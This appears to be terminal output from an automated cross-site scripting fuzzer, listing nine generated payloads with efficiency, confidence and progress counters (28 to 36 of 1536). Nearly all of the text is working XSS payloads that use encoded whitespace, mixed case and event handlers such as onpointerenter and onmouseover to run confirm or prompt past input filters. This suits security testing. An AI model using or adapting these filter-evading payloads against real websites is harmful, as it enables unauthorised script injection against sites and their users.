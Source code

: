 ------------------------------------------------------------
 Payload: <DEtailS%09ONpointERENter%0a=%0a(confirm)()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 28/1536
 
------------------------------------------------------------
 Payload: <d3V%0doNMOusEoVEr+=+(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 29/1536
 
------------------------------------------------------------
 Payload: <detailS%0aOnPOiNTeReNteR%09=%09(prompt)``%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 30/1536
 
------------------------------------------------------------
 Payload: <a%0dONPoInTERenTer%09=%09confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 31/1536
 
------------------------------------------------------------
 Payload: <dETaIlS%0dOnpOINTereNTeR%0d=%0d(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 32/1536
 
------------------------------------------------------------
 Payload: <D3v/+/ONmouSEOveR%0d=%0d[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 33/1536
 
------------------------------------------------------------
 Payload: <hTMl%0aONmouSEoveR+=+(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 34/1536
 
------------------------------------------------------------
 Payload: <A%0dONpOiNteRenTer+=+(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 35/1536
 
------------------------------------------------------------
 Payload: <deTAilS%0aOnpoiNtErentEr+=+confirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 36/1536
 